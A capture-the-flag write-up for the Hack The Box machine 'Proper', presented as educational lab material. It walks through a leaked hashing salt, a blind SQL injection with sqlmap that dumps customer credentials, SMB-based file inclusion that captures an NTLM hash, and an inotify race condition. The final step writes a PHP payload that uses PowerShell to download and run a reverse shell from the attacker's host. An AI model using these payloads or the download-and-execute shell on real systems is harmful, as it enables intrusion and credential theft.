

<p align="right">   <a href="https://www.hackthebox.eu/home/users/profile/391067" target="_blank"></a>
</p>

# Enumeration

**IP-ADDR:** 10.10.10.231 proper.htb

**nmap scan:**
```bash
PORT   STATE SERVICE VERSION
80/tcp open  http    Microsoft IIS httpd 10.0
| http-methods: 
|_  Potentially risky methods: TRACE
|_http-server-header: Microsoft-IIS/10.0
|_http-title: OS Tidy Inc.
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows
```

interesting javascript code snippet in `/index.html`


from that javascript code `products-ajax.php` load product list


in this url `/products-ajax.php?order=id+desc&h=a1b30d31d344a5a4e41e8496ccbdd26b` looks like `order` parameter conatins sql keyword `desc` in sql that means descending order and if try to change it to ascending `aes`, server return security error.
```bash
❯ curl -i -s 'http://10.10.10.231/products-ajax.php?order=id+aes&h=a1b30d31d344a5a4e41e8496ccbdd26b'
HTTP/1.1 403 Forbidden
Content-Type: text/html; charset=UTF-8
Server: Microsoft-IIS/10.0
X-Powered-By: PHP/7.4.1
Date: Sat, 21 Aug 2021 08:20:17 GMT
Content-Length: 39

Forbidden - Tampering attempt detected.
```

If remove all parameter and only request `/products-ajax.php`, return snippet of source code in error
```bash❯ curl -s 'http://10.10.10.231/products-ajax.php'
<!-- [8] Undefined index: order
On line 6 in file C:\inetpub\wwwroot\products-ajax.php
  1 |   // SECURE_PARAM_SALT needs to be defined prior including functions.php 
  2 |   define('SECURE_PARAM_SALT','hie0shah6ooNoim'); 
  3 |   include('functions.php'); 
  4 |   include('db-config.php'); 
  5 |   if ( !$_GET['order'] || !$_GET['h'] ) {                <<<<< Error encountered in this line.
  6 |     // Set the response code to 500 
  7 |     http_response_code(500); 
  8 |     // and die(). Someone fiddled with the parameters. 
  9 |     die('Parameter missing or malformed.'); 
 10 |   } 
 11 |  
// -->
Parameter missing or malformed.
```

**Gobuster** running in backgroup found a directory
```bash
/licenses             (Status: 301) [Size: 152] [--> http://10.10.10.231/licenses/]
```

Contains a login page


After combine url parameters and source code snippets from response error.

/products-ajax.php?order=id+desc&h=a1b30d31d344a5a4e41e8496ccbdd26b

`order` parameter contains a value that used by server backend and h contians md5 hash, Generated from `order` parameter value and salt `hie0shah6ooNoim`.

And indeed it is same.
```bash
❯ python -c "from hashlib import md5;print(md5(('hie0shah6ooNoim'+'id desc').encode('utf-8')).hexdigest())"
a1b30d31d344a5a4e41e8496ccbdd26b
```

## sql injection

Testing sql injection with sqlmap and Found **boolean-based blind** sql injection.
```bash
sqlmap --eval="import hashlib;h=hashlib.md5(('hie0shah6ooNoim'+order).encode('utf-8')).hexdigest()"  --batch --dbms=mysql --threads=10 -u "http://10.10.10.231/products-ajax.php?order=id+desc&h=a1b30d31d344a5a4e41e8496ccbdd26b"
#... [snip] ...
---
Parameter: order (GET)
    Type: boolean-based blind
    Title: Boolean-based blind - Parameter replace (original value)
    Payload: order=(SELECT (CASE WHEN (7143=7143) THEN 'id desc' ELSE (SELECT 8447 UNION SELECT 3809) END))&h=a1b30d31d344a5a4e41e8496ccbdd26b
---
#... [snip] ...
```

After enumerating dbms, Dumping user credentials
```bash
sqlmap --eval="import hashlib;h=hashlib.md5(('hie0shah6ooNoim'+order).encode('utf-8')).hexdigest()"  --batch --dbms=mysql --threads=10 -u "http://10.10.10.231/products-ajax.php?order=id+desc&h=a1b30d31d344a5a4e41e8496ccbdd26b" -D cleaner -T customers --dump
#... [snip] ...
Database: cleaner                                                                                                                                                                                                                            
Table: customers
[29 entries]
+----+------------------------------+----------------------------------------------+----------------------+
| id | login                        | password                                     | customer_name        |
+----+------------------------------+----------------------------------------------+----------------------+
| 1  | vikki.solomon@throwaway.mail | 7c6a180b36896a0a8c02787eeafb0e4c (password1) | Vikki Solomon        |
| 2  | nstone@trashbin.mail         | 6cb75f652a9b52798eb6cf2201057c73 (password2) | Neave Stone          |
| 3  | bmceachern7@discovery.moc    | e10adc3949ba59abbe56e057f20f883e (123456)    | Bertie McEachern     |
| 4  | jkleiser8@google.com.xy      | 827ccb0eea8a706c4c34a16891f84e7b (12345)     | Jordana Kleiser      |
| 5  | mchasemore9@sitemeter.moc    | 25f9e794323b453885f5181f1b624d0b (123456789) | Mariellen Chasemore  |
| 6  | gdornina@marriott.moc        | 5f4dcc3b5aa765d61d8327deb882cf99 (password)  | Gwyneth Dornin       |
| 7  | itootellb@forbes.moc         | f25a2fc72690b780b2a14e140ef6a9e0 (iloveyou)  | Israel Tootell       |
| 8  | kmanghamc@state.tx.su        | 8afa847f50a716e64932d995c8e7435a (princess)  | Karon Mangham        |
| 9  | jblinded@bing.moc            | fcea920f7412b5da7be0cf42b8c93759 (1234567)   | Janifer Blinde       |
| 10 | llenchenkoe@macromedia.moc   | f806fc5a2a0d5ba2471600758452799c (rockyou)   | Laurens Lenchenko    |
| 11 | aaustinf@booking.moc         | 25d55ad283aa400af464c76d713c07ad (12345678)  | Andreana Austin      |
| 12 | afeldmesserg@ameblo.pj       | e99a18c428cb38d5f260853678922e03 (abc123)    | Arnold Feldmesser    |
| 13 | ahuntarh@seattletimes.moc    | fc63f87c08d505264caba37514cd0cfd (nicole)    | Adella Huntar        |
| 14 | talelsandrovichi@tamu.ude    | aa47f8215c6f30a0dcdb2a36a9f4168e (daniel)    | Trudi Alelsandrovich |
| 15 | ishayj@dmoz.gro              | 67881381dbc68d4761230131ae0008f7 (babygirl)  | Ivy Shay             |
| 16 | acallabyk@un.gro             | d0763edaa9d9bd2a9516280e9044d885 (monkey)    | Alys Callaby         |
| 17 | daeryl@about.you             | 061fba5bdfc076bb7362616668de87c8 (lovely)    | Dorena Aery          |
| 18 | aalekseicikm@skyrock.moc     | aae039d6aa239cfc121357a825210fa3 (jessica)   | Amble Alekseicik     |
| 19 | lginmann@lycos.moc           | c33367701511b4f6020ec61ded352059 (654321)    | Lin Ginman           |
| 20 | lgiorioo@ow.lic              | 0acf4539a14b3aa27deeb4cbdf6e989f (michael)   | Letty Giorio         |
| 21 | lbyshp@wired.moc             | adff44c5102fca279fce7559abf66fee (ashley)    | Lazarus Bysh         |
| 22 | bklewerq@yelp.moc            | d8578edf8458ce06fbc5bb76a58c5ca4 (qwerty)    | Bud Klewer           |
| 23 | wstrettellr@senate.gov       | 96e79218965eb72c92a549dd5a330112 (111111)    | Woodrow Strettell    |
| 24 | lodorans@kickstarter.moc     | edbd0effac3fcc98e725920a512881e0 (iloveu)    | Lila O Doran         |
| 25 | bpfeffelt@artisteer.moc      | 670b14728ad9902aecba32e22fa4f6bd (000000)    | Bibbie Pfeffel       |
| 26 | lgrimsdellu@abc.net.uvw      | 2345f10bb948c5665ef91f6773b3e455 (michelle)  | Luce Grimsdell       |
| 27 | lpealingv@goo.goo            | f78f2477e949bee2d12a2c540fb6084f (tigger)    | Lyle Pealing         |
| 28 | krussenw@mit.ude             | 0571749e2ac330a7455809c6b0e7af90 (sunshine)  | Kimmy Russen         |
| 29 | meastmondx@businessweek.moc  | c378985d629e99a4e86213db0cd5e70d (chocolate) | Meg Eastmond         |
+----+------------------------------+----------------------------------------------+----------------------+
```

sqlmap do the job and bruteforce all passowrd hashes.

Login with customer creds, Found Same url formate inside `/licenses` dassboard


Doing same hashing technique this tile return php traceback error.
```bash
❯ python -c "from hashlib import md5;print(md5(('hie0shah6ooNoim'+'test').encode('utf-8')).hexdigest())"
d9f7afc366cf839391aac8d0d333c7c5
```


this time server is doning `file_get_contents` on `theme` parameter.

## SMB connect via remote file inclusion

Create a python script to make life easy
```py
from hashlib import md5
from sys import argv
from urllib.parse import quote_plus
import requests as r

s = r.session()
url = 'http://10.10.10.231/licenses/'
data = {"username": "vikki.solomon@throwaway.mail", "password": "password1"}
s.post(url, data=data)  # login
theme_param = argv[1]
hash = md5(b"hie0shah6ooNoim" + theme_param.encode('utf-8')).hexdigest()
rspn = s.get(f'{url}licenses.php?theme={quote_plus(theme_param)}&h={hash}')
head, sep, tail = rspn.text.partition('<body>')
print(head)

s.close()
```

Testing `theme` parameter

LFI not possible because server script appending `/header.inc` in the end of the path.
```bash
❯ python rfi.py '/etc/passwd'
<!-- [2] file_get_contents(/etc/passwd/header.inc): failed to open stream: No such file or directory
```

RFI over `http://` wrapper is disabled.
```bash
❯ python rfi.py 'http://10.10.15.71'
<!-- [2] include(): http:// wrapper is disabled in the server configuration by allow_url_include=0
```

When try to connect to smb server, 
```bash
❯ impacket-smbserver -smb2support smb .
```
it return "failed to open stream" but smb server get authentication request.


That means server is trying to connect to the smb server with credentials.

this is a Net-NTLMv2 hash and cracked with rockyou.txt


Setup sbm server with creds and successfully included `/header.inc` from from smb server
```bash
❯ impacket-smbserver -smb2support smb . -username web -password 'charlotte123!'
```


If we go back to initial error, we can see  that there is a another security check
```bash
 33 | function secure_include($file) { 
 34 |   if (strpos(file_get_contents($file),'<?') === false) { 
 35 |     include($file);
 ```
This means, If included file contians `<?` anywhere in the file, it exit out and if not than **again** doing a another include on that file with `include()` function.

* **`include()`** function is used to put data of one PHP file into another PHP file.

And if we calculate time, it definitely takes few seconds to execute both includes if all conditions are true.

## Race condition with inotify

The inotify API provides a mechanism for monitoring filesystem events. Inotify can be used to monitor individual files, or to monitor directories. When a directory is monitored, inotify will return events for the directory itself, and for files inside the directory.

Get inotify-tools from `sudo apt install inotify-tools`

We can monitor all events on specific file and do something on every event.

Using `inotifywait` utility from inotify-tools with `-e` flag to monitor specific event.
```bash
-e|--event <event1> [ -e|--event <event2> ... ]
		Listen for specific event(s).  If omitted, all events are 
		listened for.

Events:
	close		file or directory closed, regardless of read/write mode
```

With that tool finaly get php code execuated on the server, only issue occurred is that there is some delay between 2 includes, after first closing and second opening of the file. For that i setup 2 event listener, first for closing and second for opening.
```bash
echo poorduck > header.inc; inotifywait -e close header.inc;inotifywait -e open header.inc;  echo '<?php echo "poorduck from php!";?>' > header.inc
```


Getting reverse shell with [PayloadsAllTheThings powershell payload](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Reverse%20Shell%20Cheatsheet.md#powershell) and [nishang revshell ps1](https://github.com/samratashok/nishang/blob/master/Shells/Invoke-PowerShellTcp.ps1)
```bash
echo poorduck > header.inc; inotifywait -e close header.inc; inotifywait -e open header.inc; echo "<?php system(\"powershell IEX (New-Object Net.WebClient).DownloadString('http://10.10.15.71/powerShellTcp.ps1')\");?>" > header.inc
```


# Privesc

- [ ] Golang binary reversing.
- [ ] [EoP - Privileged File Write](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Windows%20-%20Privilege%20Escalation.md#eop---privileged-file-write)

* [0xdf writeup](https://0xdf.gitlab.io/2021/08/21/htb-proper.html#shell-as-root)
* [ippsec video](https://www.youtube.com/watch?v=yqNSTM9oGZE&t=2920s)